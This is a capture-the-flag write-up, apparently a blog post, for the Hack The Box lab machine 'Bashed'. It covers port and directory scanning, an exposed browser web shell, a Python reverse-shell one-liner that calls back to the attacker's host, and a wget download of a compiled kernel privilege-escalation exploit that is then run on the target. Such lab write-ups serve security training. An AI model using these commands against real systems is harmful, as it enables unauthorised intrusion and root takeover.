


# Bashed

## Recon

Now that we have the target IP address of 10.10.10.68, let's perform some recon
and enumeration. 

To being, run an `nmap` scan:

```
$ nmap -sV -sC -p- -T4 10.10.10.68 -oN nmap_scan.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 11:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 484.14 seconds
```

The only service running on this target is an HTTP Apache web server. Let's
enumerate it further with `gobuster` to check for hidden directories.

```
$ gobuster dir -u http://10.10.10.68:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

/images
/uploads
/php   
/css  
/dev 
/js 
/fonts
```

The only folder that contained anything useful was `/dev`. Open it and click on
the file `phpbash.php`



It is a full `bash` shell within the browser! While having a terminal in the
browser is nice, I prefer a proper reverse shell.

## Spawning a Reverse Shell

Start a netcat listener on our host machine:

```
$ sudo nc -nlvp 80
```

Connect to it on the target machine:

```
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.29",80));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Now we have a reverse shell! You can optionally [upgrade it to a more stable
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/) like below:




The user flag is located in `/home/arrexel/user.txt`.

## Privilege Escalation

Now to find a way to escalate our privileges to the root user. I ran `sudo -l`
to list what programs (if any) we can execute as root:

```
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I could not locate a `scriptmanager` binary, so I moved on to a different
technique.

Let's check out the kernel release and version information:

```
$ uname -rv 
4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

When Googling for "4.4.0-62-generic privilege escalation" I found this
[exploit-db C exploit](https://www.exploit-db.com/exploits/41458). The target
does not have `gcc` or `clang` installed, so I compiled the binary locally and
uploaded it to the target with `wget`. Here's how:

On host:
```
# save the linked exploit at pwn.c
$ gcc pwn.c -o pwn
$ python3 -m http.server 8080
# we now have a make-shift webserver! 
```

On target:
```
$ wget "http://10.10.14.29:8080/pwn" -O pwn
$ chmod 777 pwn
$ ./pwn
```

We now have a root shell! Print out `root/root.txt` and win!
